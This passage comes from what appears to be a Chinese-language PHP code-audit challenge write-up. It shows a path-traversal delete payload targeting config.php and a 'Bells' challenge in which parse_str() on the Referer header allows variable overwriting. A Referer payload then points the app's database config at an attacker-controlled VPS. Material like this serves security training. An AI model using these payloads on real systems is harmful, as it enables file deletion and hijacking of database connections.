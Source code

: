 ```
action=delete&data=../../config.php
```



## 7 - Bells

> parse_str

```php
function getUser($id) {
    global $config, $db;
    if (!is_resource($db)) {
        $db = new MySQLi(
            $config['dbhost'],
            $config['dbuser'],
            $config['dbpass'],
            $config['dbname']
        );
    }
    $sql = "SELECT username FROM users WHERE id = ?";
    $stmt = $db->prepare($sql);
    $stmt->bind_param('i', $id);
    $stmt->bind_result($name);
    $stmt->execute();
    $stmt->fetch();
    return $name;
}

$var = parse_url($_SERVER['HTTP_REFERER']);
parse_str($var['query']);
$currentUser = getUser($id);
echo '<h1>'.htmlspecialchars($currentUser).'</h1>';
```

`parse_str()` 极其容易导致变量覆盖漏洞，

另外`$_SERVER['HTTP_REFERER']` 是可控的，改下 `Referer` 头即可。

> 要获取当前的 *QUERY_STRING*，可以使用 [$_SERVER['QUERY_STRING'\]](https://php.net/manual/zh/reserved.variables.server.php) 变量。 

注意到第二行 `global $config, $db`，可以覆盖掉它，从而接入我们的数据库。

### payload

修改 `Referer` 头

```
http://host/?config[dbhost]=vps_ip&config[dbuser]=root&config[dbpass]=root&config[dbname]=attack&id=1
```



## 8 - Candle
